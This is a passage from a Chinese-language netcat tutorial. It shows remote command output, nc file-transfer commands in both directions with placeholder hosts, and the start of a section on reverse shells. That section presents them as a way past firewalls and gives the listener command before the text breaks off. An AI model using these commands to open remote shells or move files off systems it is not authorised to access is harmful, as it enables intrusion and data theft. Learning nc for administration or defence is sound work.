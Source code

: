 ```
ls
公共
模板
视频
图片
文档
下载
音乐
桌面
```

但是远程服务器开了`-v`并不能看到用户执行的命令以及回显，只有在命令错误的时候会输出,尝试了用两个`-v`以及`-vv`都不能输出用户执行的命令

```
/bin/sh: 1: dasd: not found
```

### 文件传输

传输效率很低，不推荐

#### 服务端==>客户端传输：

服务端监听时

```
nc -l -p <port> > <filename>
```

客户端连接

```
nc <ip> <port> > <filename>
```

#### 客户端==>服务端传输：

服务端监听时

```
nc -l -p <port> > <filename>
```

客户端连接

```
nc <ip> <port> < <filename>
```

### 反向连接

在防火墙的作用下，连接到服务器的数据包可能会被拦截，但是主机主动发出去的通常不会被拦截,所以可以使用以下方式实现反弹shell

客户端

```
nc -l -p <port>
```
